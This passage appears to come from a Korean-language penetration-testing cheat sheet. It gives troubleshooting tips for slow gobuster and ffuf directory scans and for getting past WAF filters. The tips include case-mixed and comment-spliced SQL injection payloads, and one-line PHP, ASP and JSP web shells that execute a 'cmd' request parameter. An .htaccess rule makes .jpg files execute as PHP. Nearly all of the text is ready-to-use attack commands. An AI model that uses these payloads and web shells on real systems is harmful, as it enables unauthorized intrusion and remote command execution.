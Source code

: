 ```bash
```

### 🐌 디렉토리 스캔이 느릴 때

```bash
# 스레드 수 증가
gobuster dir -u http://{IP} -w wordlist.txt -t 100

# 더 작은 워드리스트
gobuster dir -u http://{IP} -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

# 상태 코드 필터링
gobuster dir -u http://{IP} -w wordlist.txt -s 200,204,301,302,307,401,403

# 다른 도구 사용
ffuf -w wordlist.txt -u http://{IP}/FUZZ -t 100
```

### 🚫 WAF/필터링 감지시

```bash
# 프록시 체인 사용
proxychains curl http://{IP}/admin/

# 인코딩 우회
curl "http://{IP}/page.php?id=1%27%20OR%20%271%27%3D%271"

# 대소문자 섞기
curl "http://{IP}/page.php?id=1' UnIoN sElEcT 1,2,3--"

# 주석 활용
curl "http://{IP}/page.php?id=1'/**/UNION/**/SELECT/**/1,2,3--"

# 시간 지연
sleep 2 && curl "http://{IP}/attack"
```

### 🔍 쉘 업로드 실패시

```bash
# 다른 웹쉘 시도
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > shell2.php
echo '<?php passthru($_GET["cmd"]); ?>' > shell3.php
echo '<?php exec($_GET["cmd"], $output); print_r($output); ?>' > shell4.php

# 다른 스크립트 언어
echo '<% eval request("cmd") %>' > shell.asp
echo '<%@ page import="java.io.*" %><% Runtime.getRuntime().exec(request.getParameter("cmd")); %>' > shell.jsp

# .htaccess 업로드로 실행 허용
echo "AddType application/x-httpd-php .jpg" > .htaccess
# 그 후 shell.jpg 업로드

# 압축 파일로 우회
zip shell.zip shell.php
```
